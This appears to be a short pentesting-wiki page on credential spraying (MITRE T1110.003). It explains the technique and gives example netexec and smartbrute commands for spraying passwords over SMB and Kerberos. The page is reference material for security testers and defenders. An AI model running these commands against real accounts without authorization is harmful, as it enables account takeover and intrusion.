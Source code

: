 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1110.003
authors: ShutdownRepo, mpgn, sckdev
---
```


# Spraying

Credential spraying is a technique that attackers use to try a few passwords (or keys) against a set of usernames instead of a single one. This technique is just [credential guessing](guessing) but "sprayed" (i.e. against multiple accounts) and tools that can do [credential guessing](guessing) can usually do spraying.

```bash
# netexec example
nxc smb target_ip -d domain.local -u users.txt -p "password" --no-bruteforce --continue-on-succes

# smartbrute example (dynamic user list)
smartbrute smart -bp "password" kerberos -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --kdc-ip "$KDC" kerberos

# smartbrute example (static users list)
smartbrute brute -bU users.txt -bp "password" kerberos --kdc-ip "$KDC" 
```

> [!TIP]
> Read the ["Password guessing"](guessing) article for more insight.





